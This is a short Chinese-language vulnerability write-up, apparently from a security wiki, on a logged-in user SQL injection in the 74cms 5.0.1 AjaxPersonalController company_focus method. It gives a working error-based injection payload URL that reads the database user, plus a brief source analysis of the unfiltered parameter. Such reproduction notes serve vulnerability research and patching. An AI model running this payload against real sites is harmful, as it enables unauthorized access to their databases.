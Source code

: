 74cms v5.0.1 前台sql注入
========================

一、漏洞简介
------------

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

二、漏洞影响
------------

三、复现过程
------------

### 具体信息

文件位置：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

方法：function company\_focus(\$company\_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

    http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv5.0.1前台sql注入/media/rId26.png)

### 源码分析：

文件：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

company\_focus
方法是参数化函数，\$company\_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv5.0.1前台sql注入/media/rId28.png)

跟踪add\_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv5.0.1前台sql注入/media/rId29.png)
